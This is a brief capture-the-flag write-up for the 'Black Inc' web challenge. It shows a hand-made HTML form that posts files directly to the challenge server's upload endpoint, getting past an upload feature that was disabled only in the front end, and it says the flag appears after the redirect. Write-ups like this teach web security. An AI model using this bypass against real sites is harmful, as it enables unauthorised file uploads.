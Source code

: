 challenge caption :

``Black Inc is a file sharing website, however the file uploads was disabled by an administrator, can you change that or find a bypass?
``
so file upload is disabled from front-end but not removed .. 

we can try to by pass it :

this payload will open-up  a upload page at our server `we can make simple http server with python`
we can upload any thing and it will redirect us to the target 
````
<!DOCTYPE html>
<html>
<body>
<form action="http://35.240.62.111/black_inc/index.php" method="post" enctype="multipart/form-data">
  Select image to upload:
  <input type="file" name="fileToUpload" id="fileToUpload">
  <input type="submit" value="Upload Image" name="submit">
</form>

</body>
</html>

````


request look like :

![image](https://user-images.githubusercontent.com/67979878/129141996-e30e8939-985a-42e2-903c-543c1af47ea3.png)



## now we can see flag after we got redirected 



